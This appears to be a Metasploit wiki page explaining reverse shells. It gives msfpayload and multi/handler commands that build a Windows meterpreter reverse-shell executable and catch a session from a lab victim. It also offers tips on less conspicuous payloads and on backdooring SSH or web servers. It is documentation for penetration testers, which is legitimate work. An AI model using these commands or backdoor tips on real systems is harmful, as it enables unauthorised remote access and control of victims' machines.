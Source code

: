 There are two popular types of shells: bind and reverse. A bind shell is the kind that opens up a new service on the target machine, and requires the attacker to connect to it in order to get a session. A reverse shell (also known as a connect-back) is the exact opposite: it requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally the attacker receives the shell.

The basic usage of payloads is already quite well documented in the [Users Guide](https://github.com/rapid7/metasploit-framework/blob/master/documentation/users_guide_4.3.pdf) in Metasploit's documentation folder. However, learning how to use a reverse shell still remains the most common question in the Metasploit community. Plus, 9 times out of 10 you'd probably be using a reverse shell to get a session, so in this wiki documentation we will explain more about this.

## List of Metasploit reverse shells

As of now, there are 168 different reverse shells in the Metasploit Framework. We will not list all of them here, because that's just straight up spamming. But if you'd like, you can run the following command to get msfpayload to tell you:

```bash
./msfpayload -l |grep reverse
```

As a rule of thumb, always pick a meterpreter, because it currently provides better support of post exploitation Metasploit has to offer. For example, railgun, post modules, unique meterpreter commands (like webcam controls), etc.

In Windows, the most commonly used reverse shell is windows/meterpreter/reverse. But you can also try windows/meterpreter/reverse_http or windows/meterpreter/reverse_https, because their network traffic appear a little bit less abnormal.

In Linux, you can also try linux/x86/meterpreter/reverse_tcp, or the 64-bit one. However, just know that linux/x86/shell_reverse_tcp has been the most stable.

## When to use a reverse shell

If you find yourself in one of the following scenarios (but not limited to), then you should consider using a reverse shell:

* The target machine is behind a different private network.
* The target machine's firewall blocks incoming connection attempts to your bindshell.
* Your payload is unable to bind to the port it wants due to whatever reason.
* You simply can't decide what to choose.

## When a reverse shell isn't needed

Generally speaking, if you can backdoor an existing service, you may not need a reverse shell. For example: if the target machine is already running a SSH server, then you can try adding a new user to it and use that.

If the target machine is running a web server that supports a server-side programming language, then you can leave a backdoor in that language. For example, many Apache servers support PHP, then you can use a PHP "web shell". IIS servers usually support ASP, or ASP.net. The Metasploit Framework offers payloads in all these languages (and many others).

Same thing for VNC, remote desktop, SMB (psexec), or other remote admin tools, etc.

## How to set up for a reverse shell during payload generation

When you generate a reverse shell with either msfpayload or msfvenom, you must know how to configure the following:

* **LHOST** - This is the IP address you want your target machine to connect to, literally. If you're in a local area network, it is unlikely your target machine can actually reach you unless you both are in the same network. In that case, you will have to [find out your public-facing IP address](https://www.google.com/webhp?q=ip#q=ip), and then configure your network to port-forward that connection to your box. LHOST should not be "localhost", or "0.0.0.0", or "127.0.0.1", because if you do, you're telling the target machine to connect to itself (or it may not work at all).
* **LPORT** - This the port you want your target machine to connect to.

When you set up a listener for the reverse shell, you also at least need to configure LHOST and LPORT, but slightly different meanings (different perspective):

* **LHOST** - This is the IP address you want your listener to bind to.
* **LPORT** - This is the port you want your listener to bind to.

You should make sure the listener has started first before executing the reverse shell.

## Demonstration

In this demonstration, we have two boxes:

**Box A:**

* The attacker's box that receives the payload session
* IP is: 192.168.1.123 (ifconfig)
* On the same network as the victim machine

**Box B:**

* The "victim" machine
* Windows XP
* IP is: 192.168.1.80 (ipconfig)
* On the same network as the attacker machine
* For testing purposes, no antivirus enabled.
* For testing purposes, no firewall enabled, either.

**Step 1: I generate my executable payload:**

On the attacker's box, I run msfpayload like the following (or msfvenom, whatever you prefer):


```bash
$ ./msfpayload windows/meterpreter/reverse_tcp lhost=192.168.1.123 lport=4444 X > /tmp/iambad.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/meterpreter/reverse_tcp
Length: 287
Options: {"LHOST"=>"192.168.1.123", "LPORT"=>"4444"}
```

**Step 2: I copy my executable payload to Box B (my victim machine)**

This step requires no further explanation.

**Step 3: I set up my payload handler on box A (the attacker's box):**

```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
```

**Step 4: I double-click on the malicious executable**

This step requires no further explanation.

**Step 5: I should see a meterpreter/payload session on box A (the attacker's box)**

Like this:


```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.123:4444 -> 192.168.1.80:1138) at 2014-10-22 19:03:43 -0500
meterpreter >
```

The meterpreter prompt means you are currently interacting with the payload.
